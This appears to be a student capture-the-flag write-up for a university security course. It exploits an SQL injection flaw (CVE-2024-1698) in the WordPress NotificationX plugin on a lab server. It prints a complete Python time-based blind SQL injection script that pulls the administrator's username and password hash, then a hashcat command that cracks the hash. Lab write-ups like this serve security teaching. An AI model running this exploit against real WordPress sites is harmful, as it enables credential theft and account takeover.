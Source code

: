 # CTF Week #8 (SQL Injection)

By exploring the website, using the developer tools, we obtained:

![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img1.png)

We discovered that the website has the following plugins:
- Wordpress version 6.7.1.
- NotificationX version 2.8.1.
- FontAwesome version 4.7.0.

After that, we did some research to find any vulnerabilities in that plugins related to SQLinjection.
We found **CVE-2024-1698** on **WordPress NotificationX** .


By searching for the CVE exploit, we found this exploit script, which we adapted to our website:

```
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 0.3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008//wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

Then we changed the delay to 1, to handle possible limitations in responde time of the server.
By running the exploit, we obtained the hashed password!

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img3.png)

To recover the original password, we used Hashcat to crack the hash. We started by saving the hash in a file named password.txt. Then, we ran the Hashcat command to crack the hash using the rockyou.txt wordlist:

```hashcat -m 400 -a 0 password.txt rockyou.txt```

With this command we finally obtained the password ```heartbroken```.


### Questions

#### You already know that the goal is to exploit an SQL injection vulnerability. Are there any reported vulnerabilities in public databases and/or tools that allow the discovery and exploitation of SQL injection vulnerabilities?

#### What is the vulnerable endpoint of the website, and how can an attack be carried out? How can the vulnerability be classified?

#### The attack will allow you to extract information from the server's database. Specifically, you want to find the administrator's password, but as dictated by good security practices, it is not stored in plain text in the database, but as a hash of the original password. For this server, in more detail, what is the password storage policy?

#### Is storing a hashed password secure in the sense that it makes recovering the original password impossible? This issue is very common not only in the case of vulnerabilities but also in data leaks. There are various ways to attempt to reverse hash functions to recover passwords and tools to automate this process.

